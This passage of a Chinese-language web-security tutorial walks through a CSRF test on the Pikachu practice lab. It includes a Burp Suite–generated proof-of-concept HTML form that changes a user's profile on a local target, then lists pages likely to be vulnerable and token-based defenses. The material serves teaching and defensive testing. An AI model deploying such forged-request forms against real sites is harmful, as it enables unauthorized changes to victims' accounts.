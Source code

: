 ![](https://img.yatjay.top/md/202203081015766.png)

会生成一段测试CSRF是否存在的HTML代码

![](https://img.yatjay.top/md/202203081016863.png)

利用次Poc进行测试，验证CSRF漏洞的存在

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.137.128/pentest/pikachu/vul/csrf/csrfget/csrf_get_edit.php">
      <input type="hidden" name="sex" value="boy" />
      <input type="hidden" name="phonenum" value="3333333333" />
      <input type="hidden" name="add" value="Tianjin" />
      <input type="hidden" name="email" value="kobe&#64;pikachu&#46;com" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

访问该测试代码

![](https://img.yatjay.top/md/202203081020698.png)

点击按钮后会自动跳转，可见修改成功，验证确实存在CSRF漏洞

![](https://img.yatjay.top/md/202203081020783.png)

##### 漏洞检测点

- 用户信息修改页面

- 密码修改处

- 点赞

- 转账

- 注销

- 删除

#### 防御方案

1. 当用户发送重要的请求时需要输入原始密码

2. 设置随机Token(最有效)

Token是数据包的唯一值，可以理解为是数据包的编号。从本站提交的数据包的Token值和从跨站提交的数据包的Token值不同，只需验证Token值是否是本站数据包的Token，即通过Token值验证该数据包是否是从本站发出，也是一种同源策略，检测来源。
